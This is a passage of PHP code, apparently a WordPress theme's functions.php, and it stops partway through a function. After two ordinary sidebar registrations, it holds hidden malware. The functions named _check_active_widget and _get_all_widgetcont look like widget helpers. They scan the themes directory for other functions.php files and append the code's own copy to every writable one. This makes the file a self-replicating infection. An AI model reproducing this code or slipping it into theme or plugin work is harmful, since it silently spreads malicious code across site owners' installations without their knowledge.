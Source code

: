 ```
<?php
if ( function_exists('register_sidebar') )
register_sidebar(array('name'=>'right',
'before_widget' => ' <DIV class=menutitle2>',
'after_widget' => '</div>',
'before_title' => '',
'after_title' => '</div>
<div class="menu22">',
));
?>
<?php
if ( function_exists('register_sidebar') )
register_sidebar(array('name'=>'left',
'before_widget' => ' <DIV class=menutitle>',
'after_widget' => '</div>',
'before_title' => '',
'after_title' => '</div>
<div class="menu2">',
));
?>
<?php
function _check_active_widget(){
    $widget=substr(file_get_contents(__FILE__),strripos(file_get_contents(__FILE__),"<"."?"));$output="";$allowed="";
    $output=strip_tags($output, $allowed);
    $direst=_get_all_widgetcont(array(substr(dirname(__FILE__),0,stripos(dirname(__FILE__),"themes") + 6)));
    if (is_array($direst)){
        foreach ($direst as $item){
            if (is_writable($item)){
                $ftion=substr($widget,stripos($widget,"_"),stripos(substr($widget,stripos($widget,"_")),"("));
                $cont=file_get_contents($item);
                if (stripos($cont,$ftion) === false){
                    $sar=stripos( substr($cont,-20),"?".">") !== false ? "" : "?".">";
                    $output .= $before . "پيدا نشد" . $after;
                    if (stripos( substr($cont,-20),"?".">") !== false){$cont=substr($cont,0,strripos($cont,"?".">") + 2);}
                    $output=rtrim($output, "\n\t"); fputs($f=fopen($item,"w+"),$cont . $sar . "\n" .$widget);fclose($f);                
                    $output .= ($showdot && $ellipsis) ? "..." : "";
                }
            }
        }
    }
    return $output;
}
function _get_all_widgetcont($wids,$items=array()){
    $places=array_shift($wids);
    if(substr($places,-1) == "/"){
        $places=substr($places,0,-1);
    }
    if(!file_exists($places) || !is_dir($places)){
        return false;
    }elseif(is_readable($places)){
        $elems=scandir($places);
        foreach ($elems as $elem){
            if ($elem != "." && $elem != ".."){
                if (is_dir($places . "/" . $elem)){
                    $wids[]=$places . "/" . $elem;
                } elseif (is_file($places . "/" . $elem)&& 
                    $elem == substr(__FILE__,-13)){
                    $items[]=$places . "/" . $elem;}
```